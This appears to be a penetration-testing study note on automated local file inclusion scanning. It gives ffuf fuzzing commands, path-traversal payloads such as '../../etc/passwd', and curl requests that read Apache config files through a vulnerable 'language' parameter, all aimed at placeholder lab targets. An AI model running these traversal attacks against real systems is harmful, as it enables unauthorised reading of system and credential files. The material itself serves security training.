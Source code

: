 # Automated Scanning for LFI

While manual payload crafting is often necessary for bypassing WAFs or dealing with custom configurations, automated scanning can help quickly identify trivial LFI vulnerabilities.
### Parameter Fuzzing

Some parameters might be hidden (not in forms) and hence less secured.

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ \
-u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

> Once a valid parameter (like `language`) is found, test it for LFI using manual or automated methods.
### LFI Payload Wordlists

For quick testing of known payloads:

```bash
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ \
-u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```

✔ Detects common payloads like:

- `../../etc/passwd`    
- `%2e%2e/%2e%2e/etc/passwd`
- `/etc/hosts`

> These must be manually verified post-scan to ensure the correct file was read.
### Fuzzing for Webroot Path

Used when relative path inclusion fails (e.g. for uploads).

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ \
-u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

✔ Common result: `/var/www/html/`
### Fuzzing for Configs and Logs
##### Wordlists - https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows ,  https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux , https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

To extract log file paths, webroot, and other useful info:

```bash
ffuf -w ./LFI-WordList-Linux:FUZZ \
-u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

Examples of useful hits:

- `/etc/apache2/apache2.conf`    
- `/etc/apache2/envvars`
- `/etc/fstab`
- `/etc/hostname`
###  Manual Analysis of Config Files

After identifying config files like `apache2.conf`, inspect them:

```bash
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf
```

Look for:

- `DocumentRoot` (webroot path)    
- `ErrorLog`, `CustomLog` (log file locations)

Then read referenced vars from:

```bash
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars
```

> Find `APACHE_LOG_DIR`, `APACHE_RUN_USER`, etc.
### LFI Tools (Python-based)

- LFISuite - https://github.com/D35m0nd142/LFISuite     
- LFiFreak - https://github.com/OsandaMalith/LFiFreak    
- liffy - https://github.com/mzfr/liffy    

> Most are outdated, Python2-only, and not actively maintained, but good for quick scans on trivial cases.
# Tags
> #Web-Exploitation #LFI #RCE #Filters #Wrappers #Automation #File-Disclosure